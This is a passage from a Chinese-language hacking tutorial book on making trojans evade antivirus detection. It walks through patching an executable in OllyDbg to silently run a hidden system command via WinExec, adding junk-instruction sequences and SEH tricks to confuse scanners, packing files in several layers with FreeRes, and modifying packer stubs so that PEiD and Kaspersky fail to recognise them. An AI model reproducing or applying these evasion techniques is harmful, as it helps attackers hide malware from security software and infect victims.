  增量指令的格式为：`inc ecx` ；计数器（ecx）加 1
- 7. 减量指令 dec
  减量指令的格式为：`dec ecx` ；计数器（ecx）减 1
- 8. 无条件转移指令 jmp
  无条件转移指令的格式为：`jmp 00000001` ；跳转到 0x00000001
- 9. 子程序调用指令 call
  子程序调用指令的格式为：`call XX.00001234` ；调用位于 0x00001234 处的子程序

一口气总结了这么多，都是精挑细选出来的，也许有的朋友看完后会感觉一头雾水：“那些‘指针寄存器’与‘计数器’都是干什么的啊？迷迷糊糊的……”，其实没必要这么想，上面我只是举一个例子，大家只要明白这些语句怎么使用就行了，不用搞明白那些例子语句究竟是干什么的。

#### 6.3.2 由汇编语言想到的——通过反汇编添加任意功能

学了这么多枯燥乏味的东西，它们究竟有什么作用呢？下面我就教大家利用现有的知识将一个应用程序加上我们想要的功能。

下面的内容将会涉及到“2、进栈指令 push”、“8、无条件转移指令 jmp”和“9、子程序调用指令 call”。


图 6.3

程序调用指令“call”，我将依次为大家一边做演示一边进行讲解。我们的目标就是将“木马辅助查找器2005”（以下简称“木马查找器”）加一个功能，当它运行时会向C盘下写入一个内容为C盘里文件目录结构的文本文档。

第一步先请出OllyDbg，并打开“木马查找器”，如图6.3，看见这些生疏的汇编指令大家先不用担心，现在只需要先找到一处“HEX数据”为0的区域，并记住开头的地址，如图6.4。然后选中一片区域，并单击右键，选择“二进制”→“编辑”，如图6.5。在弹出的编辑对话框中输入我们一会儿要调用的命令“cmd /c dir c:\ > c:\lookme.txt”，如图6.6，熟悉系统命令的朋友应该知道，这条命令的作用就是将C盘根目录下的文件及目录信息写到c:\lookme.txt文件中。


图6.4


图6.5


图6.6

我们再选中下面的隔一行处，并按空格键，弹出了一个汇编对话框，填写汇编指令“push 0”，如图6.7，然后记住这个地址。

下面再写入“push 开头地址”，由上图6.5可知，我们选择的开头地址为“004B1DB2”，所以这条指令就应该为“push 004B1DB2”。在其后面写入“call WinExec”，最后在如图6.8所示处找到整个程序的入口点，并写上最后一条汇编语句“jmp 004B1D38”就可以完工了。


图 6.7


图 6.8

接下来在OllyDbg的界面中单击右键，弹出了如图6.9所示的菜单，选择其中的“复制到可执行文件”→“所有更改”→“全部复制”，然后在弹出的窗口中再次单击右键，并选择“保存到文件”就行了，如图6.10。

最后我们就是修改入口点了，打开LordPE，将已经更改后的“木马查找器【改】”拖放到LordPE的界面中，如图6.11。然后将程序的入口点改为“0x000B1DD7”，也就是上图6.7所示的那个地址减去0x00400000所得的数值，并点击“保存”即可，如图6.12所示。

到这里，一个经我们亲手改造的程序就诞生了，通过上面的操作，我们赋予了程序原本没有的功能。不难发现，这次改造的中心思想就是使程序执行“dir c:\ > c:\lookme.txt”这条系统命令，如果我们将其更换为其它命令呢？当然同样可以执行。这无形间就给了我们无限的发挥空间，至于那些更加精彩的利用，就留给读者朋友们去实现吧。


图 6.9


图 6.10


图 6.11


图 6.12

但是现在有一个问题已经突显出来了，我们利用的原理究竟是什么呢？现在我就为大家进行讲解。首先，我们利用了一个名为“WinExec”的 API 函数执行的系统命令，它的格式为：

```cpp
UINT WinExec(
    LPCSTR lpCmdLine,
    UINT uCmdShow );
```

其中的“UINT WinExec(”为函数开始部分，字符串“UINT”去掉不要，剩下的“WinExec(”是不变的，“LPCSTR lpCmdLine,”替换为我们想要执行的系统命令，最后的“UINT uCmdShow );”则是一个窗体显示参数，为 0 则隐藏执行，为 1 则不隐藏执行。

如果我们要利用的话，其实就是“WinExec(系统命令,0);”，但是汇编调用 API 函数遵循了 stdcall 格式，也就是从右到左的格式，所以在使用汇编实现时，要先将参数“0”压入栈，然后再将系统命令压入栈，最后再调用我们的函数 WinExec，并来一个 JMP 跳转，跳到程序入口点，从而保证程序运行的顺序。大致格式如下：

```asm
00001234  PUSH EBP       ;程序入口点
0000XXXX  .....
.....
00002001  YYYYY          ;系统命令的第一行
00002002  YYYYY
.....
00002100  push 0         ;将参数设为 0 并压入栈，0 在 WinExec 函数里就是隐藏运行的意思
00002101  push 00002001  ;将系统命令所在区域的起始地址压入栈
00002102  call WinExec   ;一定要注意大小写
00002103  jmp 00001234   ;程序入口点
```

在保存完文件后，我们还要将这个文件的入口点改为“push 0”所在的地址，也就是 0x00002100，使文件在运行时首先执行 we 加入的这个功能，然后再由“jmp 00001234”跳到程序真正的入口点，使程序正常运行。

由于涉及到的内容比较多，所以讲的有些散，但是相信大家在理解起来也不会有什么困难的，本节的重点是要大家了解汇编，所以建议大家先将本节所介绍的例子实验成功后，再通篇阅读一遍，相信就会有不一样的感觉了！

### 6.4 花指令入门

通过上节内容的学习，相信大家对于汇编语言应该熟悉一些了，现在我就带大家了解一下花指令，其实花指令的原理就是一种保证堆栈平衡的思想；这与我们在前边6.2小节中所介绍的基于脚本木马的花指令应用基本是一个原理，最后的结果都是要保证程序能够正常运行。我们以“防杀精灵终极防杀代码”为例，来讲解一个花指令代码。

```asm
push ebp      ;将基址指针寄存器（ebp）压入堆栈
mov ebp,esp   ;将esp传送至ebp
add esp,-0C   ;将esp加“-0C”，不平衡
add esp,0C    ;又将esp加“0C”，等于这两条指令就是废话（例如先加-1，再加1）
push eax      ;将数据寄存器（eax）压入栈
jmp 入口      ;跳到程序入口
```

由上面这段指令不难看出来，花指令确实是完全没有用的垃圾指令，它的存在只为起到干扰的作用，其实我们在上一小节中所讲的为应用程序增加功能的做法也是一种花指令，大家看图6.13，很显然我们修改之后的程序已经成功的将PEiD欺骗了。


图6.13

为了方便大家以后的学习，我为大家列举出了一些常用的花指令组合：

- `nop` ——空指令，无作用（我们常用来干扰杀毒）
- `pop eax` ——将数据弹出堆栈
- `pop eax` ——将数据弹出堆栈
- `push ebp` ——将基址指针寄存器（ebp）压入堆栈
- `pop ebp` ——将基址指针寄存器（ebp）弹出堆栈
- `add esp,1` ——将指针寄存器（esp）加1
- `sub esp,1` ——将指针寄存器（esp）减1
- `add esp,1` ——将指针寄存器（esp）加1
- `add esp,-1` ——将指针寄存器（esp）加-1
- `sub esp,1` ——将指针寄存器（esp）减1
- `sub esp,-1` ——将指针寄存器（esp）减-1
- `push esi` ——将源变址寄存器（esi）压入堆栈
- `push edi` ——将目的变址寄存器（edi）压入堆栈
- `inc ecx` ——计数器（ecx）加1
- `dec ecx` ——计数器（ecx）减1
- `sub eax,-2` ——将数据寄存器（eax）减去-2，其实也就是加上2
- `dec eax` ——将数据寄存器（eax）的计数器减1
- `dec eax` ——将数据寄存器（eax）的计数器减1
- `jmp ********` ——无条件跳转
- `push ********` ——将入口地址压入栈
- `retn` ——返回到入口地址
- `mov eax,********` ——将入口地址传送到数据寄存器中
- `jmp eax` ——跳到程序入口地址

其实本节开始部分所介绍的那个花指令，就是由上面成对的常用花指令组合而成的，而上面的成对花指令又是由一些基本的汇编语言构成的，所以说花指令的入门还是比较容易的。

我们只需要将上面的基本花指令简单的变通并组合一下，再添加一个跳转，改一下程序入口点也就成功的添加一个花指令了，详细的操作步骤我们将在下一节中介绍。

### 6.5 花指令在免杀领域的应用

花指令对免杀的影响是非常大的，有效的利用花指令可以使免杀工作做到事半功倍，甚至可以单凭花指令就达到免杀的效果！

#### 6.5.1 花指令的应用技巧

首先我们应该明白什么时候比较适合使用花指令，而什么时候则不适合。总的来说花指令应该在无壳的木马中应用，如果木马已经被加壳，那么我们就应该先脱壳然后再添加花指令，因为不管是加壳还是加花指令都可以将其看作是一种加密行为。鉴于我们手工加壳的成功率以及其它问题，因此一般都是先加花指令然后再加壳。

有一点需要说明的是，添加花指令也会增加木马被启发式扫描器发现的几率，而且常见的花指令本身就可能包含有特征码，所以究竟什么时候加花指令，加多少花指令等就只是仁者见仁、智者见智了。

下面我带大家进行一次典型的花指令添加操作，首先打开OllyDbg并载入我们要加花的程序，找到一段空区域后写入以下花指令：

```asm
push ebp
mov ebp,esp
push -1
push 111111
push 222222
mov eax,fs:[0]
push eax
mov fs:[0],esp
pop eax
mov fs:[0],eax
pop eax
pop eax
pop eax
pop eax
mov ebp,eax
jmp 程序原入口
```


图 6.14

写入的方法与我们在上一节中所讲的增加任意功能的操作方法是一样的，首先选中空区域并按“空格键”，调出反汇编窗口后依次写入上面的指令，如图6.14，然后写入jmp指令跳回到原程序入口点，如图6.15。


图 6.15

接下来我们单击右键，选择“复制到可执行文件”>“所有修改”，如图6.16，在弹出的对话框中点击“全部复制”按钮，然后在新界面中单击右键，在弹出的菜单中选择“保存文件”就可以保存成功了，如图6.17。


图 6.16


图 6.17

由上图 6.14 可知我们花指令的起始地址为“0x004AD173”，我们使用 PEditor 打开程序，并将入口点改为“0x004AD173”，如图 6.18，最后点击“应用更改”即可。其实除了手工添加花指令外，还有一些工具也可以实现自动加花，由于使用方法非常简单，这里就不做详细介绍了。


图 6.18

#### 6.5.2 花指令的修改技巧简介

花指令既然可以被前辈们制作出来，必然也就可以被修改，但是花指令的修改是否能达到我们预期的目的，是否能修改成功呢？这些就需要一定的汇编语言基础了，这里我只给大家简单的介绍一下。

首先花指令要保证不破坏堆栈平衡或在程序可以接受的范围内进行有目的的破坏，这样可以保证程序在加花后仍能正常运行。说到这里，或许一些朋友又开始对“堆栈”这个名词感冒了，大家不用担心，带着问题看下去就会明白了。

所谓的堆栈平衡，我们目前可以简单的理解为不影响程序的运行结果，例如我们先执行一条“add eax,-3”，也就是将 eax 加 -3，然后再执行一条“sub eax,-3”，也就是将 eax 减 -3，这样加一个 -3 再减一个 -3，这两条指令就权当不存在也未尝不可，因为它们对程序的运行结果没有产生任何的影响。

这就是花指令的制作原理，如果要在现成的花指令上修改的话，我们可以使用修改特征码的等值替换法来替换原有语句，例如将“add eax,-3”修改为“sub eax,3”等等，或者是添加一些自己的语句，例如添加一对“add eax,-3”与“add eax,3”，由此我们不难看出，花指令的修改还是很简单的。

#### 6.5.3 空白区域寻找与加空白区段

相信大家通过上面的例子已经学会了纯手工加花指令的步骤，总的来说要比我们在上一节中所介绍的那个例子简单得多，相信细心的读者也已经发现了，不管是通过反汇编为程序添加功能还是使用跳转法修改特征码，以及我们现在涉及到的添加花指令等等操作，它们的共同需求都是能有一块比较大的 00 区域以便于我们的修改。

通过前面的学习，我想大家已经学会了怎样通过 OllyDbg 找到空白区域，其实不管是 OllyDbg 还是 WinHex 都可以非常轻松的找到一块可用的 00 区域，但是还有几点是需要大家注意的：

- 1. 使用 WinHex 找到如图 6.19 所示的 00 区域后，要将其起始地址转换为内存地址，这样就可以在 OllyDbg 中找到它了，如图 6.20。


图 6.19

- 2. 找到空白区域后不要忘记检测此区域是否可写，如果不可写的话则会导致最终保存时出现错误，从而前功尽弃。验证方法是选中将要使用的 00 区域，单击右键，在弹出的菜单中选择“复制到可执行文件”>“选择”，如图 6.21。完毕后如果弹出了如图 6.22 所示的对话框，则证明这段区域不可用，否则的话就是可以使用。


图 6.20


图 6.21


图 6.22

- 3. 在 WinHex 中也可以通过菜单栏“搜索”下的“查找16进制数值”来搜索00字节以快速定位。

除此之外，还可以利用一些工具查找空白区段，例如我们常用的 PEiD 就有这个功能，在使用 PEiD 打开一个程序后，点击 PE 段后的“>”按钮，如图6.23，就可以打开如图6.24所示的界面，我们右键选择一个区段后，在弹出的对话框中选择“搜索全0处”，如图6.25，就可以找到如图6.26所示的全0区域信息了。


图 6.23


图 6.24

其实还有一款专门用于搜索“00”区域的软件 CodeCaver，也叫做“PE空隙搜索器”，它可以搜索 NOP 与 0 空间，但是唯一不好的地方就是需要运行程序才能进行查找，例如我现在正运行着一个截图软件，打开 CodeCaver 后在“进程名”下拉菜单中选择“截图软件.exe”，如图 6.27，然后点击“搜索”按钮就会找到如图 6.28 所示的“00”区域信息了。


图 6.27


图 6.28

CodeCaver 找到的“00”区域信息是非常丰富的，由于是直接在内存中搜索到的，所以不需要进行地址转换就可以直接在 OllyDbg 中应用，不过这个工具并不利于我们在进行木马修改时应用，因为它只能在已经运行的程序中进行寻找。

但是倘若我们利用以上的方法都无法找到合适的“00”区域又该怎么办呢？其实我们也可以通过加区段的方法人为的制造出一块可用的区段，可以使用 ToPo 这款小工具来增加所需要的区段，运行 ToPo 后点击“打开”按钮打开我们要添加区段的程序，在弹出的对话框中选择“创建一个新的区段[文件大小增加]”，然后再点击“OK”按钮，如图 6.29。


图 6.29


图 6.30

在“增加字节”栏填入“128”，一般情况下这里所填写的字节数最好为 2 的倍数，勾选上“改变入口”，最后点击“生成”按钮，如图 6.30。我们由图中可以看到程序显示已经将 128 字节增加到 0x0103E000 这个地址后了。

在这里需要说明的是，如果我们像上面那样选择了“改变入口”这个选项的话，程序会自动将入口点更改为软件中所提示的“0x0103E000”这个地址，如图6.31，而且还会在区段结尾添加一个跳转语句跳转到程序原来的入口地址处，如图6.32，所以 we 直接将花指令添加进去就行了，省去了添加跳转以及更改入口点的麻烦。


图 6.31


图 6.32

这一小节的三个“00”区域的寻找方法各有长短，大家可以根据自己的喜好与实际情况来选择利用。

### 6.6 花指令的高级应用

有的读者可能要抱怨了，这花指令真是乏味，难道就没有一些让人激动的东西可以让我们研究吗？其实不是没有激动的东西，而是真正可以令诸位激动的技术就是前面讲的那些，只不过各位的汇编根基还比较差而已，但即便如此，花指令还是有一些比较耐玩的技术可以供大家学习的。

#### 6.6.1 花指令的提取与快速应用

当我们拿到一款免杀的木马或是花指令自动添加工具时，是否有过想将对方的花指令据为己有的想法呢？如果能将花指令提取出来，那么这个花指令以后就是我们自己的了。

其实通过前面的前置知识，我想大家对于花指令的提取已经有了一个大致的思路了，下面我就带各位读者再将思路整理一下。

首先根据本书所介绍过的例子以及大家所做的练习，相信大家已经猜测到，如果木马程序被加了花指令，那么往往在程序开头处的信息便是花指令了，如图6.33，这就是一个通过加花工具自动添加进去的花指令。

通过这个花指令我们可以发现它是通过压栈（push）来跳到程序的原入口点的，因此我们以后应用时只需要更改push后面的内容即可。为了方便以后的调用，我们在OllyDbg中先选中这段花指令，然后单击右键，选择“二进制复制”，如图6.34，然后将其粘贴到文本文档中以备后用。如果我们想应用这段花指令，只需要复制我们保存在记事本中的花指令信息，然后选中一块空白区域，单击右键，选择“二进制粘贴”，如图6.35，然后再将push指令部分更改为“push 01016361”，如图6.36，最后使用PEditor将入口点修改为花指令开始的地址就行了，如图6.37。

在这里我再给大家介绍一款工具——怒剑狂花，它能够很好地支持自定义花指令的添加。打开“怒剑狂花”后，依次选择“设置”>“自定义”，如图 6.38，然后在弹出的窗口中点击“添加”按钮，便进入到了自定义花指令的窗口了，如图 6.39。

## 第六章 免杀与花指令

在花指令名称处填写我们要给花指令取的名字，这里我填写的是“X档案”，下一步就是将我们刚才保存下来的花指令代码复制进去，然后将“自动调整格式”勾选上，如图 6.40。

我们看到上面还有一个“跳转位置”没有填写，这是我们自定义花指令的一个重要参数，它用来获取花指令应该在哪里开始跳转。回到 OllyDbg 后我们可以发现跳转处的 HEX 数据为“68 61 63 01 01”，而其上面则为“68 90 90 90 90”，如图 6.41。由此可知，在字符“68 61 63 01 01”里的“61 63 01 01”就是原程序入口地址的 HEX 数据了，而其中的 68 就是代表 push。我们返回到“怒剑狂花”中，点击 68 后，可以看到窗口底部显示的信息为“选中字符序号为：23”，如图 6.42，因此我们只要在“跳转位置”处填写 23 即可，这样程序在添加花指令时，当添加到 23 个字符后就会插入它获取的原程序入口，以便于程序的正常运行了。掌握了这些，大家以后就可以随时添加自己搜集来的花指令了，是不是感觉很实用呢？

### 6.6.2 SEH异常的应用

关于 SEH 异常是一个比较复杂的概念，这里我不想为各位读者系统地介绍，因为那样只会使大家变得更加迷糊，我只介绍一下目前我们能用到的知识以及引领大家向更深层次迈进。

我们先静下心来读读 MSDN 给出的解释：Windows 95、Windows 98 和 Windows 2000 支持一种称为结构化异常处理的可靠的异常处理方法，此方法涉及与操作系统的协作，并且在编程语言中具有直接支持。

“异常”是意外的或是使进程不能正常进行的事件，硬件和软件都可以检测出异常。硬件异常包括被零除和数值类型溢出。软件异常包括通过调用 RaiseException 函数检测到并发出信号通知系统的情况，以及由 Windows 检测到的特殊情况。

可以使用结构化异常处理编写更可靠的代码，可以确保资源（如内存块和文件）在发生意外终止事件时正常关闭，还可以利用简洁的、不依赖 goto 语句或详细测试返回代码的结构化代码来处理具体问题（如内存不足）。

SEH 异常也叫做“结构化异常处理（Structured Exception Handling）”，它其实是系统提供的一个服务，例如有时我们执行程序时会出现一个错误提示框，我们可以点击“发送报告”或“调试”亦或是“关闭”。在这之前的 Windows 版本也会弹出一个提示框，如果我们的系统安装了微软的编译工具时它就会诱导你启用工具去调试程序的错误。

当系统检测到异常发生后，它马上会将发生异常的程序挂起，从而交由系统特定的调试程序来处理，也就是说这时程序的执行流程已经转移到了系统，而如果程序此时又运行起来的话，那么就会使程序的运行流程产生更大的迷惑性。

大家可以想象一下，假如杀毒软件在跟踪程序的运行，而此时程序抛出了一个异常，流程转移到了系统，那么可想而知，杀毒软件肯定会傻乎乎地跟到系统里，而原程序此时就可以大摇大摆地继续进行自己的使命了。

当然，上面所举的例子并不十分准确，只是为了尽量使大家了解 SEH 异常。关于 SEH 异常在花指令中的应用，大家暂且把它当成一个跳转使用就行了，例如我们现在有个已经加花的程序，我们只需要将花指令的跳转替换为 SEH 异常代码就行了。我就以下面的 SEH 异常代码为例为大家演示一下：

```asm
push ********
mov eax, dword ptr fs:[0]
push eax
mov dword ptr fs:[0], esp
nop
vxdcall ;34543
```

我们先使用 OllyDbg 打开已经加花的程序，发现程序入口处就是一段花指令，用鼠标选中的那一行便是跳向程序真正入口的地址了，如图 6.43，我们双击那行后就会显示出原程序的入口地址，由图 6.44 可知，原程序的入口地址为 1016361。现在将其替换为我们上面的 SEH 异常代码就可以了，并将上面代码中的“********”改为原程序入口地址。

最终的修改结果如图 6.45 所示，最后我们将其保存。至此关于花指令相关的知识就告一段落了，通过本章的学习希望大家意识到，任何看似复杂的知识都是可以拆解为一些简单的知识来逐个攻破的，本章就是一个很好的例子。

## 著名室友系列

> “谁来喂管理员自己呢？”
> ——Juvena（古多马啡精神人）

## 第七章 免杀与壳

壳既可以保护美味的榛子，亦可以保护有毒的石栗，但是又有什么来保护壳本身呢？反病毒与反查杀之间都在加壳与攻壳中进行的，但是聪明的黑客们早就从中找到了另一条路，他们也许会略带讥讽地告诉您“如果我们能保护一下始终无私奉献的壳没准会收到更好的效果”。

本章就带领大家走进“壳”的世界，让您知道“壳”在电脑领域中起到什么样的作用，扮演什么样的角色，而我们又是怎样将其与免杀联系在一起的。最后我会带领大家了解黑客是怎样直接从壳上下功夫，从而在反查杀的战争中取得胜利的。

### 7.1 什么是壳

“壳”是我们现实生活中常见的一种东西，大多数情况下里面都隐藏着美味的干果，我们吃的时候自然也要先将壳扒掉，才能品尝到里面的美味。电脑世界里的壳也是如此，它将有用的东西保护在里面，以防他人窥探，而只有当系统将其运行时，它才会将其一直保存的东西释放到内存中并运行。

也就是说，加壳与加密是完全等价的，只不过我们平时理解的加密是完全将数据保护起来，别人不能看、不能运行更不能复制。而加壳的这种思想与其稍有不同：它既可以保护已加密的程序不被非法人员窥探或改动，也可以保证任何人在任何时间都可以运行程序。

看到这里也许有读者会很困惑，那么加壳的意义何在呢？其实之所以给应用程序加壳，一是为了保护自己的版权不被他人非法修改，因为未加壳的程序是很容易被人通过反汇编而进行修改；二是为了保护自己的权益不被侵犯，因为有许多共享软件的作者是靠卖注册码而取得收入的，如果他们没有给软件加壳，那么软件将十分容易破解，那对软件作者来说将是灾难性的后果。其实除此之外，加壳还有很多其他的用途，例如有些壳可以起到压缩的作用，甚至可以将程序的体积压缩到原来的 30% 大小，而且还不影响其正常运行。因此，如果要用一句话来概括壳的作用的话，那么“壳”就是“一种可以将应用程序加密且不影响其运行的软件”。

下面就让我们一起来看看一款加壳软件，以利于大家快速形成一个对壳的概念。如图 7.1 就是一款国内比较好用的壳 nspack（北斗），这是一款压缩壳，压缩率可以达到 50% 左右，我们依次选择菜单栏中的“文件”>“打开”，选择我们的实验程序，然后点击“压缩”按钮即可加壳成功，如图 7.2 所示。仔细看程序信息窗口倒数第二行，可知压缩壳已经将原程序由 241664 个字节压缩到 139472 个字节，压缩率达到了 42.3%。我们现在再用 PEiD 查壳加壳后的程序，显示结果为 “nSpack V2.x -> LiuXingPing *”，如图 7.3 所示。

由此看来，所谓的“壳”也不过如此。但是各位读者也不要太乐观了，我们上面只是讲的应用，但是仅仅停留在应用层面上的话，我想我就不用写这本书了。所以想自如地运用“壳”的话，还是要学习一些看似枯燥的知识的，但是研究“壳”绝对是一件比较有意思的事情，我们一步一步地来学吧。

### 7.2 壳的基础知识

在大家对壳有一个基本的认识之后，我再带大家深入地了解一下壳。对于现在的壳来说，根据作用与加壳后的效果不同，我们可以将其分为两类，一类是压缩壳，压缩壳的主要任务是将应用程序有效地压缩。另一类是加密壳，它们的主要任务就是加密，但是大多数加密壳并不会缩小程序体积，反而会使程序体积变大。但是不管是压缩壳还是加密壳，它们之间的大致原理与执行流程都是一样的，被加密的应用程序加壳后都会变成 PE 文件里的资源，此时执行加壳文件后将先执行壳，再由壳将已加密的程序逐渐解密并还原到内存中去，整体运行流程如图 7.4 所示。

下面我们一起来看看壳的加载详情，首先系统加载程序以后会先运行壳，这时壳会加载自己运行时所需要的 API 函数，然后将已加密的节区解密，如果是压缩壳则还要解压，然后按照 PE 文件节的定义将其放到正确的内存位置，并进行重定位，最后跳转到入口点开始运行原程序。

上面只是对壳的解压并运行的一个综述，也许许多朋友看完后还是感觉没什么收获，这是因为你没有完全理解导致的。大家通过上面所介绍的内容已经对壳的运行模式有了一个基本的了解，现在我对上面的流程详细地介绍一下。

通过上面的介绍我们知道了加壳程序需要先加载 API 函数，但是究竟什么是 API 呢？API 也叫做“应用程序编程接口”，它是 Windows 提供给编程人员的一系列函数，应用程序通过调用这些函数来完成对操作系统的一系列操作。但是现在对于 API 大家不用去详细地了解，只要知道应用程序执行的每一个操作都要调用系统的 API 来进行即可。因此可以大体地推断出来，如果壳要执行解密操作，一定会用到一些 API 函数，但是一般情况下加壳之后的应用程序不会找到多少 API，有的时候甚至只有区区几个，很显然这些 API 是不足以满足壳的需要的。而之所以我们看不到什么有用的 API，是因为一些有用的 API 已经被壳隐藏起来了，只有在壳的运行过程中才会动态地将其所需要的 API 全部加载。这其中的技术细节大家以后接触软件破解技术后就会逐渐明白的。

关于下一步的解密节区相信各位读者应该都明白是什么意思了，这里我就不再介绍了。下一步壳会对已经压缩成资源的原应用程序数据进行逐节区解密，然后释放到合适的内存位置。

接下来壳会对解密程序进行重定位，因为有一些壳会将原程序的保存重定位信息的节区去掉，以此来保证程序被压缩得更好，并且更加不容易被破解。所以在将运行流程交给原程序之前，还要将其进行重定位操作。重定位工作中最重要的信息就是基地址（ImageBase）了，一般的 EXE 文件的基地址都为 0x00400000，而且程序运行后系统给程序提供的基地址往往也是 0x00400000，所以在这种情况下并不需要进行重定位。这样的话可以使壳将保存重定位信息的节区去掉，以得到更高的压缩率。但事实并非如此，例如动态链接库（DLL）文件，操作系统不可能保证每一次 DLL 运行时都能给其提供相同的基地址，所以在这种情况下重定位就显得很重要了。由此我们也可以得出一个结论，加壳了的 DLL 文件要比加壳的 EXE 文件更难修复。

最后壳跳到原程序的入口点，将执行流程交给原程序，此时被加密的原程序才真正地运行起来。这就是壳的解压过程了，那么它的压缩过程是什么样的呢？对于这个问题就要大家自己研究了，因为对于我们免杀或是脱壳来说，它的压缩过程我们不必去详细地了解，因为那些是壳的作者需要思考的问题。

其实上面所讲的解压过程还有一个 HOOK 步骤没有提及，因为它对于我们免杀来说并没有多大的帮助，如果大家对壳比较感兴趣的话，可以自己到网上查找一下相关信息。

### 7.3 壳在免杀领域的应用

基于加密压缩原理的加壳技术肯定会对加密后的文件造成非常大的变化，杀毒软件没有将其脱壳还原的话，肯定是无法查杀其中的病毒的。所以在免杀刚刚开始盛行的时候，加壳免杀的方法受到很多初学者的追捧，因为其操作简便，而且当时的病毒查杀技术也不像现在这样先进，往往只需点击几下鼠标就可以达到比较满意的免杀效果。但是随着杀毒厂商技术的不断成熟，自动脱壳、虚拟机脱壳的技术不断被应用到最新的反病毒产品中，加壳的免杀效果也在大打折扣，用加壳的方法免杀也正在被逐渐淘汰。但是加壳免杀作为一种曾经有效的免杀手段，我们各位读者还是有必要对其进行一定的了解，而且随着时代的进步，加壳免杀中也诞生了不少新的思路和技巧。下面我就为大家大体介绍一下加壳免杀的具体思路与各种技巧。

#### 7.3.1 加壳的免杀原理

我们知道被加壳的程序本身就相当于加了一层保护，里面的原程序也被外面的壳重新排列（压缩）了一遍。基于壳的种类不同，加壳后的应用程序体积有可能变得更大，也有可能被压缩得更小，但是不管怎样，加壳以后的程序除了壳以外是没有人能读懂原程序的真正代码的。杀毒软件自然也就找不到了已经定义好的特征码了。当程序运行时，壳会先于原程序运行，并将程序解密还原到内存中，然后再将控制权交给程序，这时程序才会真正地运行，如图 7.4 所示。如果此时碰到算法先进的内存扫描器，程序被还原的瞬间还是有可能暴露自己的特征码的。但是就目前的杀毒软件来讲，一款生僻的或是经过修改的强壳还是可以起到很明显的免杀效果的。

#### 7.3.2 FreeRes 多重加壳

关于 FreeRes 可以说是加壳免杀的一个里程碑，FreeRes 软件原作者的意图是想人们能通过这个软件将已压缩加密的程序解压并释放，从而有利于汉化爱好者进行汉化操作。但是它的特殊功能很快就被黑客发现并加以利用。

在此之前，黑客们为了对抗杀毒软件的自动脱壳功能，发现了一些重复加壳的规律，使得某些壳可以与其他的一些壳重复使用，也就是最原始的加多层壳方法。但是杀毒软件厂商很快就做出了反应，使得仅有的一些加壳组合迅速被破解，有限的组合方式很快就不再适用了。在这个背景下诞生了 FreeRes 加多层壳的方法，它使得我们可以无限次地为应用程序加壳，最重要的是里面没有绝对的组合规律，也就是说理论上 FreeRes 可以帮助你用任何加壳软件对一个软件进行多次加壳。

下面我为大家演示一下 FreeRes 加多层壳的操作步骤，我们首先打开 FreeRes，在第一次打开 FreeRes 时，一般情况下是未注册的，大家可以支持正版购买此软件，也可以利用附带的注册码生成器注册。我们依次选择“文件”>“打开”，打开我们的已加壳文件 DTools，如图 7.5 所示，打开后会弹出如图 7.6 所示的提示框，提示我们已载入的资源可能已被压缩，我们点击“是”继续。

这里需要提醒大家注意的是，如果你点击了“是”，或资源已经被成功载入的话，那么就说明这个程序已经被执行了。如果你此时正在用木马做实验的话，那么就说明已经运行木马了，因此大家一定要注意安全，例如使用自己生成的可以卸载的木马，并且不要选择自动删除功能。下面我们选择“功能”>“建立可编辑资源”，如图 7.7 所示，此时会弹出对话框告知我们“已经建立了可编辑资源！”，现在资源已经被成功释放，我们可以进行二次加壳了。打开“eXPressor v.1.3”后将已释放的 DTools 拖拽到它的界面中加载，如图 7.8 所示。然后点击“开始压缩”按钮即可加壳。到现在为止，算上程序本身所带的那层壳，我们已经将程序加了两层壳了，如果大家想加更多的壳只需重复上面的步骤即可。

但是这并不算是什么好的办法，因为根据我个人的操作经验来看，这种方法还是有它的局限性，因为在进行操作的时候会出现一些加壳不成功或是其他的情况。但是如果我们能将壳本身做一下更改，是否同样可以达到免杀的效果呢？下一节我来教大家黑客是怎样在壳上下功夫的……

### 7.4 壳的修改技巧

壳既然具有加密功能，并且每个壳本身都有不同的特征，那么我们是否能将免杀的思想应用于壳上呢？壳的流程改变了，自然特定的检查方式与脱壳方式也就对它无效了。这一节我们来学习怎样修改壳，我通过两个例子教大家从两个不同的方面来了解壳的修改技巧。

#### 7.4.1 壳的初级修改

壳的修改其实与特征码的修改基本一致，使用的方法无非就是上下两句互换，同义语句替换等等，我想这些对于阅读这个章节的读者来说已经不是什么困难事了。现在直奔主题，我来演示一下壳的修改方法。

首先给一个应用程序加上一个北斗的壳，然后用 OllyDbg 打开。在修改壳的代码时，记住一定要在入口点附近修改，我们可以看到入口点附近代码如下：

```asm
0041D88E  >  9C           pushfd
0041D88F     60           pushad
0041D890     E8 00000000  call KillBox_.0041D895
0041D895     5D           pop ebp
0041D896     B8 07000000  mov eax,7
0041D89B     2BE8         sub ebp,eax
0041D89D     8DB5 AEFFFFFF lea esi,dword ptr ss:[ebp-152]
0041D8A3     8A06         mov al,byte ptr ds:[esi]
```

其中 0041D88E 就为入口点了，我们可以看到程序开头先是两个压栈，先是一个调用，随后是一个出栈。如果在这 3 条指令上修改的话，利用成功率肯定都不算很高。我们接着往下看，是一个传送指令，将 7 传送给 eax，随后在下一条指令里又将 eax 与 ebp 相加，因为这是在程序开头，一般情况下 eax 应该是初始的空值，所以我们现在有两种方案可行。

一是将第 5 条指令 `mov eax,7` 删除，然后再将第 6 条指令的 `sub ebp,eax` 改为 `add ebp,-7`，这样可保证本段指令的结果不会发生变化。二是先将 `mov eax,7` 改为 `mov eax,-7`，然后再将 `sub ebp,eax` 改为 `add ebp,eax`，这样依然可以使程序本段指令的结果不会发生变化。但是如果像上面那样更改，第一种方法会导致 eax 不能被赋值，也就是说 eax 的值经过本段指令后仍然为空，而第二种方法则可能导致 eax 带了一个错误的值继续后面的其他运算，所以这两种修改方法都有可能导致程序运行错误，这点需要大家注意。

我个人使用的是第二种方案，更改完毕后如图 7.9 所示，然后就是例行公事般的“右键”→“复制到可执行文件”→“选择”→再次单击右键→“保存文件”将我们修改之后的程序保存，最后执行一下发现完全正常。虽然在运行上看不出丝毫变化，但是经过我们这样的更改之后，用 PEiD 查一下壳大家就会看出其中的奥妙，如图 7.10 所示，我们发现改过之后的程序已经不能被 PEiD 所识别了。而且就目前来讲，这种通过修改壳的免杀方法对于卡巴斯基来说还是比较有效的！

#### 7.4.2 制作通用补丁

通过上面简单的讲解，相信大家对壳的修改已经不陌生了，但是每次免杀时都修改一次是不是觉得很麻烦？另外经过简单修改的壳也不一定就能以此逃过杀毒软件的法眼，所以我们还要将其修改得足够复杂。

## 7.4.2.1 壳的深度修改

